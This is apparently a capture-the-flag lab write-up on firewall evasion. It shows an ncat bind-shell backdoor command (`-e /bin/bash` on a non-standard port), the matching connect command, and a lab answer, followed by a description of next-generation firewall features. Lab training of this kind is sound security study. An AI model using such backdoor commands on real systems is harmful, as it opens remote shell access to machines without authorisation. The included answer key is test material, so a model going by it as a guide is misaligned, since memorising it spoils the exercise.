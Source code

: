 ## __Task 8: Evasion Using Non-Standard Ports__

`ncat -lvnp PORT_NUMBER -e /bin/bash` will create a backdoor via the specified port number that lets you interact with the Bash shell.

- `-e` or `--exec` executes the given command
- `/bin/bash` location of the command we want to execute

On the AttackBox, we can run `ncat MACHINE_IP PORT_NUMBER` to connect to the target machine and interact with its shell.

Considering the case that we have a firewall, it is not enough to use `ncat` to create a backdoor unless we can connect to the listening port number. Moreover, unless we run `ncat` as a privileged user, `root`, or using `sudo`, we cannot use port numbers below 1024.

??? question "Answer the questions bellow"

    We’re continuing to use the web-form from Task 6 to set up the `ncat` listener. Knowing that the firewall does not block packets to destination port 8081, use `ncat` to listen for incoming connections and execute Bash shell. Use the AttackBox to connect to the listening shell. What is the user name associated with which you are logged in?
    > Ans: thmredteam
    > ![](image-21.png)

## __Task 9: Next-Generation Firewalls__

Traditional firewalls, such as packet-filtering firewalls, expect a port number to dictate the protocol being used and identify the application. Consequently, if you want to block an application, you need to block a port. Unfortunately, this is no longer valid as many applications camouflage themselves using ports assigned for other applications. In other words, a port number is no longer enough nor reliable to identify the application being used. Add to this the pervasive use of encryption, for example, via SSL/TLS.

Next-Generation Firewall (NGFW) is designed to handle the new challenges facing modern enterprises. For instance, some of NGFW capabilities include:

- Integrate a firewall and a real-time Intrusion Prevention System (IPS). It can stop any detected threat in real-time.
- Identify users and their traffic. It can enforce the security policy per-user or per-group basis.
- Identify the applications and protocols regardless of the port number being used.
- Identify the content being transmitted. It can enforce the security policy in case any violating content is detected.
- Ability to decrypt SSL/TLS and SSH traffic. For instance, it restricts evasive techniques built around encryption to transfer malicious files.

A properly configured and deployed NGFW renders many attacks useless.
